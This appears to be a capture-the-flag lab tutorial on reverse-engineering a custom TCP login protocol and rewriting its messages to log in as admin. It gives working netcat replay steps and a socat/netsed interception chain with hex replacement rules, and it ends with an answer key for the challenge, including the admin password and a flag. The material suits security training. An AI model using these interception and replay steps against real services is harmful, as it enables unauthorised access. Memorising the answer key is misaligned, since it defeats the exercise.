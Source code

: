 # How to modify traffic

## Protocol

The protocol consists of following parts:

__Get User ID__
```
42|username
```

__Login__
```
01|length|02|length_payload|03|user_id|password|04|MD5(01|length|02|length_payload|03|user_id|password)|ffff
```

## Advantages and Disadvantages

No that we understand the protocol a bit better we want to get admin rights!

There are two ways for it:
1. Create a new TCP connection and send over the modified payload
  - __Advantage:__ Very easy to do, easy to script and fuzz.
  - __Disadvantage:__ Not working/hard, if the protocol is complex and depends the order of the send requests.
2. Intercept the request on-the-fly and replace parts of the message.
  - __Advantage:__ Minimal overhead for complex protocols and small changes.
  - __Disadvantage:__ Complex setup.

## Method 1: New TCP Connection
The following will safe the TCP data to a file:
1. In `wireshark` use right-click on the `Data` and select `Export Packet Bytes...` (Ctrl+Shift-X) and save the data as a file.
2. Now you can send the data to service with netcat (`nc`):
```
nc 0.0.0.0 9999 < file.bin
```
3. To manipulate the exported binary file you can use a hex editor of your choice.

## Method 2: Intercept and Replace
This method will use two tools called `netsed` and `socat`.
1. `netsed`: can, based on match replace rules, modify tcp packets.
2. `socat`: can redirect the traffic to `netsed` and back to the network/service.

![intercept-modify-setup](img/intercept-modify-setup.png)

__Please note:__ We will start change the port for `./alice_and_bob -i 0.0.0.0 -p 9998` to port `9998`. Otherwise we cannot open the same port on the device. If you can't change the port you need to use `iptables` rules.

Setup `socat` to redirect traffic. At first open tree different terminals:
1. Open a listening port `9998` and redirect to `6666`
```
socat -v tcp4-listen:9998,reuseaddr,fork tcp4:0.0.0.0:6666
```
2. Start `netsed` and froward traffic from `6666` to `6665`
```
netsed tcp 6666 127.0.0.1 6665 's/Balice/Badmin/1'
```
The rule `'s/Balice/Badmin'` will replace the first `Balice` occurrence with `Badmin`. As a result the server will answer with the user id of the admin.

3. But at first we must route the traffic back to the service running on port `9999`.
```
socat -v tcp4-listen:6665,reuseaddr,fork tcp4:0.0.0.0:9999
```

You will see that we need to improve this setup with our own proxy, because the match and replace is not powerful enough to dynamically generate the MD5 sum.

In this case we don't have any dynamic value like a nonce so we can do a static match replace.

`netsed` hex representation for the `bob` request:
```
%01%26%02%0f%03%00%01%62%6f%62%69%73%74%68%65%62%65%73%74%04%1f%3c%7f%56%5f%b8%3a%2b%f0%d8%e4%ed%66%2a%31%71%ff%ff
```
`netsed` hex representation for the `admin` request:
```
%01%1f%02%08%03%00%00%61%64%6d%69%6e%04%fe%da%b5%ad%44%7c%af%12%9a%82%37%da%e9%ce%55%a9%ff%ff
```
The final `netsed` command to replace `bob` with `admin`:
```
netsed tcp 6666 127.0.0.1 6665 's/%01%26%02%0f%03%00%01%62%6f%62%69%73%74%68%65%62%65%73%74%04%1f%3c%7f%56%5f%b8%3a%2b%f0%d8%e4%ed%66%2a%31%71%ff%ff/%01%1f%02%08%03%00%00%61%64%6d%69%6e%04%fe%da%b5%ad%44%7c%af%12%9a%82%37%da%e9%ce%55%a9%ff%ff/1'
```

# Challenge 02

1. What is the user id of the `admin`? Verify by resending a wireshark packet using both methods.
  - `0x00 0x00`
2. What is the password of the `admin`?
  - `admin`
3. Login as the user `admin` using both methods. What is the flag?
  - `Your secret is "flag{0eb316772b9a9e2ab790ab38488e851f}"`
